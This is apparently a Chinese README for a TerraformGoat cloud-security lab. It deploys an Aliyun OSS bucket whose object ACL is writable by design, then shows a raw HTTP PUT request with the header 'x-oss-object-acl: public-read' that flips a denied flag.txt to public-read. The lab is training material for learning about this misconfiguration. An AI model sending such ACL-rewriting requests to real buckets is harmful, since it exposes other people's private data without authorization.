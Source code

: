 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本。
虽然你在实际环境中可能不会遇到，但是玩的愉快

## Git clone

```bash
cd /TerraformGoat/aliyun/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

在确认没有问题后，输入yes回车即可快速构建

![image-20220425190632275](../../../images/image-20220425190632275.png)

直接访问该存储桶的/flag.txt

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

但是我们可以通过*?acl*来查看这个对象的ACL权限

![image-20220425190747906](../../../images/image-20220425190747906.png)

随后可以通过PUT方法，将对象的ACL修改为public-read即可，我们需要在请求头添加*x-oss-object-acl*参数

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

成功修改了对象的ACL，现在使用GET方法来获取

![image-20220425191033750](../../../images/image-20220425191033750.png)

## 销毁挑战

```bash
terraform destroy
```

随后输入yes，等待销毁即可

![image-20220425191136549](../../../images/image-20220425191136549.png)
